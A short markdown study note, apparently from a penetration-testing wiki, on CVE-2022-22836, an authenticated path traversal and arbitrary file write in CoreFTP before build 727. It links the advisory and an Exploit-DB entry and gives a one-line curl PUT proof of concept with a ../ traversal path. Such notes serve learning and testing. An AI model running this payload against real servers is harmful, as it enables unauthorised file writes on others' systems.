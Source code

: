 ```yaml
---
tags:
  - Exploitation
---
```



## CoreFTP < Build 727

[NVD - CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability.

This vulnerability allows us to write files outside the directory to which the service has access.

[CoreFTP Server build 725 - Directory Traversal (Authenticated) - Windows remote Exploit](https://www.exploit-db.com/exploits/50652)

```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

